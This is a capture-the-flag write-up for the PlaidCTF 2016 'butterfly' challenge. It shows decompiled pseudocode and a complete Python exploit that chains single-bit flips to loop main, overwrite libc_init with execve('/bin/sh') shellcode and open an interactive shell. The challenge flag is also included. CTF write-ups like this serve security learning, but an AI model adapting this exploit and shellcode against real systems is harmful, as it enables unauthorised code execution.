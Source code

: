 ```yaml
---
layout: post
title: pctf 2016 butterfly writeup
category: writeup
---
```



with disassembler, I can get pseudocode like
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // er14@1
  __int64 v4; // rax@2
  char v5; // bl@2
  __int64 v6; // rbp@2
  unsigned __int64 v7; // r15@2
  __int64 v8; // rax@5
  char v10; // [sp+0h] [bp-68h]@1
  __int64 v11; // [sp+40h] [bp-28h]@1

  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = v4 >> 3;
    v7 = (v4 >> 3) & 0xFFFFFFFFFFFFF000LL;
    if ( mprotect((void *)v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *(_BYTE *)v6 ^= 1 << (v5 & 7);
      if ( mprotect((void *)v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
```

so this program get one integer, and xor one specific bits.
I choose one address to change stack operation

> .text:0000000000400860                 add     rsp, 48h | 48 83 C4 48
to
> .text:0000000000400860                 add     rsp,  8h | 48 83 C4 08

so i can control return address. (goto main and loop this thing)

and next thing is easy: overwrite any address to shellcode and execute it.

my exploit code:
```python
import pwnbox
import struct

# PCTF{b1t_fl1ps_4r3_0P_r1t3}

local = True

main_ = 0x400788
libc_init = 0x400890
if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q butterfly_33e86bcc2f0a21d57970dc6907867bed')
else:
    p = pwnbox.pipe.SocketPipe('butterfly.pwning.xxx',9999)

first_point = (0x400863) << 3 | 6

def xor_code(addr,pos):
    p.read_until('RAY?')
    p.write(('%d' % ((addr << 3) | pos)).ljust(40,'A') + struct.pack('<Q',main_) + '\n')

def xor_byte(addr,byte):
    for i in range(8):
        if byte & 1 :
            xor_code(addr,i)
        byte /= 2

def change_byte(addr,orig,new):
    xor_byte(addr,orig)
    xor_byte(addr,new)

def change_bytes(addr,orig_bytes,new_bytes):
    for i in range(len(orig_bytes)):
        change_byte(addr+i, struct.unpack('<B',orig_bytes[i])[0], struct.unpack('<B',new_bytes[i])[0])


if local:
    p.read_until('(gdb)')
    #p.write('b *0x400860\n')
    p.write('r\n')


p.read_until('RAY?')
p.write(('%d'%first_point).ljust(40,'A') + struct.pack('<Q',main_)+'\n')
change_bytes(libc_init,'415741564189FF415541544C8D251602200055488D2D1602200053'.decode('hex'),'31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05'.decode('hex'))

p.read_until('RAY?')
p.write(('%d'%(0x40086B << 3 | 0)).ljust(40,'A') + struct.pack('<Q',libc_init) + '\n')
p.interact()
```
